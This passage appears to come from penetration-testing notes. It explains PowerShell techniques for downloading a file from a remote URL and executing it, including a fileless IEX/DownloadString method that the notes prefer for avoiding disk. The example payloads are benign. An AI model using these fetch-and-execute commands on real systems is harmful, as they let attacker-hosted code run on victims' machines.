

Download and execute file
There are two primary ways we can download and execute code using PowerShell:
•
download to disk ◇ Powershell 2/3/4/5
▪ Net.WebClient DownloadFile method
PS> (New-Object System.Net.WebClient).downloadfile("https://raw.githubusercontent.com/DenFox93/prova1/main/example.exe","$env:userprofile\desktop\fileprova.exe")
PS> & '$env:userprofile\desktop\fileprova.exe' #execute the file
▪ BITSAdmin.exe
▪ Certutil.exe w/ -urlcache argument
◇ Powershell 3/4/5
 PS> Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/DenFox93/prova1/main/example.exe' -Outfile '$env:userprofile\desktop\fileprova.exe'
PS> & '$env:userprofile\desktop\fileprova.exe' #execute the file
• download and run within the
PowerShell process memory, and never touches the disk (Preferred Method)
◇ Powershell 2/3/4/5
In “example.txt” there is the command “ls” because of that, the machine where we execute the command will list files and directories in the current folder
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/DenFox93/prova1/main/example.txt');
◇ Powershell 3/4/5
In “example.txt” there is the command “ls” because of that, the machine where we execute the command will list files and directories in the current folder
PS> (Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/DenFox93/prova1/main/example.txt').Content | Invoke-Expression
*For more examples go to the chapter
Downloads files from Attacker/Web